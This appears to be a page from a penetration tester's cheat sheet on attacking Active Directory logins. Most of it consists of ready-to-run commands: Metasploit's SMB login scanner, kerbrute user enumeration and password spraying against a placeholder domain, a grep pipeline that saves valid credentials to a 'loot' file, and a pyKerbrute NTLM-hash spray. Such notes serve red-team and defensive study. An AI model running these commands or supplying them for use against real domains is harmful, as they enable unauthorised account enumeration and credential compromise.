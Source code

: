 


## Tools



### MSF

```
msf > use auxiliary/scanner/smb/smb_login
msf > set RHOSTS <DC_IP>
msf > set SMBDomain megacorp.local
msf > set SMBPass Passw0rd!
msf > set USER_FILE /home/snovvcrash/ws/enum/all-users.txt
msf > set VERBOSE False
msf > run
```



### kerbrute

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)
* [https://github.com/urbanadventurer/username-anarchy](https://github.com/urbanadventurer/username-anarchy)
* [https://github.com/captain-noob/username-wordlist-generator](https://github.com/captain-noob/username-wordlist-generator)
* [https://gist.github.com/superkojiman/11076951](https://gist.github.com/superkojiman/11076951)

Generate a wordlist of common usernames in an appropriate format and validate it against KDC ([doesn't cause](https://github.com/ropnop/kerbrute#user-enumeration) accounts lock out):

```
$ kerbrute -d megacorp.local -o ~/ws/log/kerbrute-userenum.log userenum ~/ws/enum/names.txt
$ cat ~/ws/log/kerbrute-userenum.log | grep VALID | awk '{print $7}' | awk -F@ '{print $1}' > ~/ws/enum/valid-users.txt
```

Perform password spraying for discovered accounts:

```
$ kerbrute --delay 100 -d megacorp.local -o ~/ws/log/kerbrute-passwordspray-'123456'.log passwordspray ~/ws/enum/valid-users.txt '123456'
$ cat ~/ws/log/kerbrute-passwordspray-*.log | grep VALID | awk '{print $7}' >> ~/ws/loot/creds.txt
```



### pyKerbrute

- [https://github.com/3gstudent/pyKerbrute](https://github.com/3gstudent/pyKerbrute)

```
$ python2 ADPwdSpray.py 192.168.1.11 megacorp.local users.txt ntlmhash fc525c9683e8fe067095ba2ddc971889 udp
```

